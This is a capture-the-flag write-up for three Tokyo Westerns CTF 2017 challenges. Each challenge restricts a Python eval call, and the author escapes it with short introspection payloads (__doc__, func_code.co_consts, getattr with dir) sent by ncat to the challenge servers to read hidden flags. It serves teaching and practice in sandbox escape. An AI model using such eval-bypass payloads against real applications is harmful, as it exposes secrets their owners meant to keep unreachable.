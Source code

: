 ```yaml
---
layout: post
title: "swap"
---
```

# pplc - tokyo westerns ctf 3rd 2017

The problem description is as follows:

yet another PLC challange as last year's?

private: nc ppc1.chal.ctf.westerns.tokyo 10000

local: nc ppc1.chal.ctf.westerns.tokyo 10001

comment: nc ppc1.chal.ctf.westerns.tokyo 10002

[restricted_python.7z](https://twctf2017.azureedge.net/attachments/restricted_python.7z-9fa38ea88ab7e0fad4f1d7b085dec649140fc6f20665a7a60753156f0b53437a)

these challenges exercised the ability to break out of 3 various restricted python `eval` calls, a nice primer on using builtin python functionality to bypass restrictions! i found that using [ptpython](https://github.com/jonathanslenders/ptpython) was pretty useful since it has tab completion and you are able to surf your history much easier. if you are completely new to python exploitation i recommend going through the picoctf python exploitation challenges, i went through the ones from 2013 and learned quite a lot i was able to use on this challenge. in particular one should know about the [dir](https://docs.python.org/2/library/functions.html#dir) builtin function which returns an alphabetized list of names comprising (some of) the attributes of the given object, and of attributes reachable from it.

## comment
### comment.py
```python
import sys
from restrict import Restrict

r = Restrict()
# r.set_timeout()

d = sys.stdin.read()
assert d is not None
d = d[:20]

import comment_flag
r.seccomp()

print eval(d)
```
### comment_flag.py
```
'''
Welcome to unreadable area!
FLAG is TWCTF{CENSORED}
'''
```

comment was super simple, checking the `__doc__` attribute reveals the flag. docstrings are a string literal that occurs as the first statement in a module, function, class, or method definition. such a docstring becomes the `__doc__` special attribute of that object, according to the [PEP article on Docstrings](https://www.python.org/dev/peps/pep-0257/).

```python
>>> import comment_flag
>>> dir(comment_flag)
['__builtins__', '__doc__', '__file__', '__name__', '__package__']
>>> comment_flag.__doc__
'\nWelcome to unreadable area!\nFLAG is TWCTF{CENSORED}\n'
```

pointing this at the server:

```
$ ncat ppc1.chal.ctf.westerns.tokyo 10002 
comment_flag.__doc__
<ctrl-d>
Welcome to unreadable area!
FLAG is TWCTF{very simple docstring}
```

## local
### local.py
```python
import sys
from restrict import Restrict

r = Restrict()
# r.set_timeout()

def get_flag(x):
    flag = "TWCTF{CENSORED}"
    return x

d = sys.stdin.read()
assert d is not None
d = d[:30]

r.seccomp()

print eval(d)
```

since the problem name implies the use of the `locals()` builtin python function i experimented based on this and through that i found the `func_code` object for `get_flag` and its constants attribute (`co_consts`, see [this blog](http://akaptur.com/blog/2013/11/15/introduction-to-the-python-interpreter-2/) for a brief overview of code objects).

```python
>>> def get_flag(x):
  2     flag = "TWCTF{CENSORED}"
  3     return x
>>> locals()
{'run': <function run at 0x7fb34a8b29b0>, '__builtins__': <module '__builtin__' (built-in)>, '__file__': '/usr/local/bin/ptpython', u'_2': {...}, '__package__': None, 'sys': <module 'sys' (built-in)>, 're': <module 're' from '/usr/lib/python2.7/re.pyc'>, 'get_flag': <function get_flag at 0x7fb348434398>, '__name__': '__main__', '__doc__': None, u'_': {...}}
>>> locals()['get_flag']
<function get_flag at 0x7fb348434398>
>>> dir(locals()['get_flag'])
['__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__doc__', '__format__', '__get__', '__getattribute__', '__globals__', '__hash__', '__init__', '__module__', '__name__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'func_closure', 'func_code', 'func_defaults', 'func_dict', 'func_doc', 'func_globals', 'func_name']
>>> locals()['get_flag'].func_code
<code object get_flag at 0x7fb34a7cf3b0, file "<stdin>", line 1>
>>> dir(locals()['get_flag'].func_code)
['__class__', '__cmp__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__le__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'co_argcount', 'co_cellvars', 'co_code', 'co_consts', 'co_filename', 'co_firstlineno', 'co_flags', 'co_freevars', 'co_lnotab', 'co_name', 'co_names', 'co_nlocals', 'co_stacksize', 'co_varnames']
>>> locals()['get_flag'].func_code.co_consts
(None, 'TWCTF{CENSORED}')
```

the only problem with solving this problem with `locals()` is i couldn't seem to figure out how to keep my code under 30 characters! what i had amounted to 40 characters, so i kept trying things - could i reference `get_flag` directly without using `locals()`? in fact i could - using the same attributes, even:

```python
>>> get_flag.func_code.co_consts
(None, 'TWCTF{CENSORED}')
```

pointing this at the server:
```
$ ncat ppc1.chal.ctf.westerns.tokyo 10001 
get_flag.func_code.co_consts
<ctrl-d>
(None, 'TWCTF{func_code is useful for metaprogramming}')
```

## private
### private.py
```python
import sys
from restrict import Restrict

r = Restrict()
# r.set_timeout()

class Private:
    def __init__(self):
        pass

    def __flag(self):
        return "TWCTF{CENSORED}"

p = Private()
Private = None

d = sys.stdin.read()
assert d is not None
assert "Private" not in d, "Private found!"
d = d[:24]

r.seccomp()

print eval(d)
```

private forces us not to use the string 'Private' in our code. the first thing i noticed was that using `dir` we could bypass writing 'Private':

```python
>>> dir(p)[0]
'_Private__flag'
```

using this and string append i found a string that would bypass the 'Private' restriction but it was too long:

```python
>>> "p.".__add__(dir(p)[0]).__add__("()")
'p._Private__flag()'
>>> eval("p.".__add__(dir(p)[0]).__add__("()"))
'TWCTF{CENSORED}'
>>> "p.".__add__(dir(p)[0]).__add__("()")
'p._Private__flag()'
>>> len('"p.".__add__(dir(p)[0]).__add__("()")')
37
```

surfing around the attributes of `Private` i found `__getattribute__` which is simply a method wrapper around the `getattr` builtin function. `getattr` gets a named attribute from an object; `getattr(x, 'y')` is equivalent to `x.y` according to the documentation. with `getattr` we are able to do the same as i was trying to do before but with less characters!

```python
>>> getattr(p, '_Private__flag')
<bound method Private.__flag of <__main__.Private instance at 0x7f99b1b1b440>>
>>> getattr(p, '_Private__flag')()
'TWCTF{CENSORED}'
>>> getattr(p, dir(p)[0])
<bound method Private.__flag of <__main__.Private instance at 0x7f99b1b1b440>>
>>> getattr(p, dir(p)[0])()
'TWCTF{CENSORED}'
```

pointing this at the server:

```
$ ncat ppc1.chal.ctf.westerns.tokyo 10000 
getattr(p, dir(p)[0])()
<ctrl-d>
TWCTF{__private is not private}
```
